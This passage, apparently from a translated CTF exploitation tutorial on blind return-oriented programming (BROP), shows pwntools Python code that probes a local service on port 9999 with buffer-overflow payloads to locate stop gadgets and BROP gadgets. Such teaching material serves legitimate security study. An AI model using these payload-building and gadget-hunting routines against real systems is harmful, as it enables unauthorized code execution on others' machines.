 ```python
        except Exception:

            addr += 1

            sh.close()

```



Here we directly try 64-bit programs without PIE, because it is generally like this, if it is turned on, then follow the open method, and found a lot, I chose a seemingly return Address to the source program


```text

one success stop gadget addr: 0x4006b6

```



#### Identifying brop gadgets


Below, we get the corresponding brop gadgets address according to the principle described above. Constructed as follows, get_brop_gadget is to get a possible brop gadget, the latter check_brop_gadget is for checking.


```python

def get_brop_gadget(length, stop_gadget, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(

            stop_gadget) + p64(0) * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

        print content

        # stop gadget returns memory

        if not content.startswith('WelCome'):

            return False

        return True

    except Exception:

        sh.close()

        return False


```